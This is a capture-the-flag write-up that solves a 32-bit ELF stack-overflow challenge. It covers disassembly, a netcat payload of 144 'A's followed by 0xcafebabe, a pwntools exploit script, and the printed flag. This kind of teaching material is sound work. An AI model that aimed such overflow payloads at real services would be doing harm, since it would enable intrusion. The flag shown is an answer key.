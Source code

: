 Are you awake?
20

Are you awake?

nc areyouawake.chals.fuzzy.land 5503


Solution
========

First of all, let's analyze the binary file:
```
$ file awake
awake: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=759b6f50dbea9e6924bab76a7add1c4bf121e5c2, not stripped
```
```
$ checksec awake
[*] 'awake'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
It's a 32bit Linux ELF binary with stack protection disabled ("No canary found")
but with a non-executbale stack ("NX enabled"). Furthermore the file is
little-endian ("LSB executable"). That's already some usefull
information, so let's now find out what the program does. We execute the program and enter ```yes```:

```
$ nc areyouawake.chals.fuzzy.land 5503
```
```
Are you awake? yes
Nope, you are still sleeping! (0xdeadbeef)
😴
```
The program gives us a hint: ```(0xdeadbeef)```.
Obviously there's a variable which stores the value ```0xdeadbeef``` which we
might have to change to some specific value in order to get the flag. Since we
don't have the source code available, we have to disassemble the binary:

```
$ objdump -d awake
```
```
0804854b <check_awake>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%esp
 8048551:	83 ec 0c             	sub    $0xc,%esp
 8048554:	68 d0 86 04 08       	push   $0x80486d0
 8048559:	e8 72 fe ff ff       	call   80483d0 <printf@plt>
 804855e:	83 c4 10             	add    $0x10,%esp
 8048561:	a1 40 a0 04 08       	mov    0x804a040,%eax
 8048566:	83 ec 04             	sub    $0x4,%esp
 8048569:	50                   	push   %eax
 804856a:	68 28 01 00 00       	push   $0x128
 804856f:	ff 75 08             	pushl  0x8(%ebp)
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 8048577:	83 c4 10             	add    $0x10,%esp
 804857a:	90                   	nop
 804857b:	c9                   	leave
 804857c:	c3                   	ret

0804857d <func>:
 804857d:	55                   	push   %ebp
 804857e:	89 e5                	mov    %esp,%ebp
 8048580:	81 ec 88 00 00 00    	sub    $0x88,%esp
 8048586:	83 ec 08             	sub    $0x8,%esp
 8048589:	68 28 01 00 00       	push   $0x128
 804858e:	8d 85 78 ff ff ff    	lea    -0x88(%ebp),%eax
 8048594:	50                   	push   %eax
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
 804859a:	83 c4 10             	add    $0x10,%esp
 804859d:	8b 45 08             	mov    0x8(%ebp),%eax
 80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
 80485a5:	75 2a                	jne    80485d1 <func+0x54>
 80485a7:	83 ec 0c             	sub    $0xc,%esp
 80485aa:	68 e0 86 04 08       	push   $0x80486e0
 80485af:	e8 3c fe ff ff       	call   80483f0 <puts@plt>
 80485b4:	83 c4 10             	add    $0x10,%esp
 80485b7:	83 ec 0c             	sub    $0xc,%esp
 80485ba:	68 29 87 04 08       	push   $0x8048729
 80485bf:	e8 3c fe ff ff       	call   8048400 <system@plt>
 80485c4:	83 c4 10             	add    $0x10,%esp
 80485c7:	83 ec 0c             	sub    $0xc,%esp
 80485ca:	6a 01                	push   $0x1
 80485cc:	e8 3f fe ff ff       	call   8048410 <exit@plt>
 80485d1:	8b 45 08             	mov    0x8(%ebp),%eax
 80485d4:	83 ec 08             	sub    $0x8,%esp
 80485d7:	50                   	push   %eax
 80485d8:	68 38 87 04 08       	push   $0x8048738
 80485dd:	e8 ee fd ff ff       	call   80483d0 <printf@plt>
 80485e2:	83 c4 10             	add    $0x10,%esp
 80485e5:	83 ec 0c             	sub    $0xc,%esp
 80485e8:	68 5e 87 04 08       	push   $0x804875e
 80485ed:	e8 fe fd ff ff       	call   80483f0 <puts@plt>
 80485f2:	83 c4 10             	add    $0x10,%esp
 80485f5:	83 ec 0c             	sub    $0xc,%esp
 80485f8:	6a 00                	push   $0x0
 80485fa:	e8 11 fe ff ff       	call   8048410 <exit@plt>

080485ff <main>:
 80485ff:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 8048603:	83 e4 f0             	and    $0xfffffff0,%esp
 8048606:	ff 71 fc             	pushl  -0x4(%ecx)
 8048609:	55                   	push   %ebp
 804860a:	89 e5                	mov    %esp,%ebp
 804860c:	51                   	push   %ecx
 804860d:	83 ec 04             	sub    $0x4,%esp
 8048610:	a1 44 a0 04 08       	mov    0x804a044,%eax
 8048615:	6a 00                	push   $0x0
 8048617:	6a 02                	push   $0x2
 8048619:	6a 00                	push   $0x0
 804861b:	50                   	push   %eax
 804861c:	e8 0f fe ff ff       	call   8048430 <setvbuf@plt>
 8048621:	83 c4 10             	add    $0x10,%esp
 8048624:	83 ec 0c             	sub    $0xc,%esp
 8048627:	68 ef be ad de       	push   $0xdeadbeef
 804862c:	e8 4c ff ff ff       	call   804857d <func>
 8048631:	83 c4 10             	add    $0x10,%esp
 8048634:	b8 00 00 00 00       	mov    $0x0,%eax
 8048639:	8b 4d fc             	mov    -0x4(%ebp),%ecx
 804863c:	c9                   	leave
 804863d:	8d 61 fc             	lea    -0x4(%ecx),%esp
 8048640:	c3                   	ret
 8048641:	66 90                	xchg   %ax,%ax
 8048643:	66 90                	xchg   %ax,%ax
 8048645:	66 90                	xchg   %ax,%ax
 8048647:	66 90                	xchg   %ax,%ax
 8048649:	66 90                	xchg   %ax,%ax
 804864b:	66 90                	xchg   %ax,%ax
 804864d:	66 90                	xchg   %ax,%ax
 804864f:	90                   	nop
 ```
In the disassembly of ```<main>``` we can see a function call to ```<func>``` with one
function argument: ```0xdeadbeef```:
```
8048627:	68 ef be ad de       	push   $0xdeadbeef
804862c:	e8 4c ff ff ff       	call   804857d <func>
```

The disassembly of ```<func>``` tells us, that the function argument (in this particular case it's 0xdeadbeef) is then compared with the hard coded value 0xcafebabe:
```
...
80485a0:	3d be ba fe ca       	cmp    $0xcafebabe,%eax
...
```
Let's see if we can change the variable's content from 0xdeadbeef to something
else:
```
$ python -c 'print "A"*142' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbeef)
😴
```
Hm, nothing happened so far. But what if we add another A to the payload?
```
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*143' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdeadbe00)
😴
```
Here we go! We just successfully modified the value from ```0xdeadbeef``` to ```0xdeadbe00```. That's most likely caused by the NULL termination of the C library function ```fgets()``` which reads in our input. The call to function fgets() can be found in the disassembly of the function ```<check_awake>```...
```
 8048572:	e8 69 fe ff ff       	call   80483e0 <fgets@plt>
 ```
...which in turn is called within function ```<func>```:
```
 8048595:	e8 b1 ff ff ff       	call   804854b <check_awake>
```
So let's continue to add some more A's to our payload:
```
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*144' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xdead000a)
😴
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*145' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xde000a41)
😴
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*146' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa4141)
😴
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*147' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0xa414141)
😴
user@627cd80eca9e /data/wargames/fuzzy.land/pwn/are_you_awake $ python -c 'print "A"*148' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Nope, you are still sleeping! (0x41414141)
😴
```
Now we have completely overwritten the variable and therefore replaced the value ```0xdeadbeef``` with our A's which are represented by the ASCII hex code 0x41. 

In the beginning we found out that the binary is 32 bit. 8 bits are 1 byte. And each one of our A's is 1 byte as well. Therefore 4 A's form a 32 bit address. 
In order to get the flag, all we have to do is to replace ```0x41414141``` with the previously gathered value ```0xcafebabe```. As mentioned earlier, the binary is little-endian. Therefore we have to store the 4 bytes in reverse order. So 0xca 0xfe 0xba 0xbe becomes 0xbe 0xba 0xfe 0xca:
```
$ python -c 'print "A"*144 + "\xbe\xba\xfe\xca"' | nc areyouawake.chals.fuzzy.land 5503
Are you awake? Oh, good morning :)
What better way to start the day than with a flag ;)
LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}
```
This can even be simplified by using the [packing](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing) function of the so-called [pwntools](https://github.com/Gallopsled/pwntools) Python library:
```
#!/usr/bin/python

import pwn
import struct

p = pwn.remote( "areyouawake.chals.fuzzy.land", 5503 )
#p = pwn.process( "./awake" )

payload = "A" * 144
payload += pwn.p32( 0xcafebabe )

print( p.recv() )
p.sendline( payload )
print( p.recv() )
print( p.recv() )
```
```
$ python exploit.py
[+] Opening connection to areyouawake.chals.fuzzy.land on port 5503: Done
Are you awake?
Oh, good morning :)
What better way to start the day than with a flag ;)

LosCTF{s0me_s4y_y0u_c0uldve_d0ne_th1s_wh1le_sl33p1ng}

[*] Closed connection to areyouawake.chals.fuzzy.land port 5503
```
That's it.
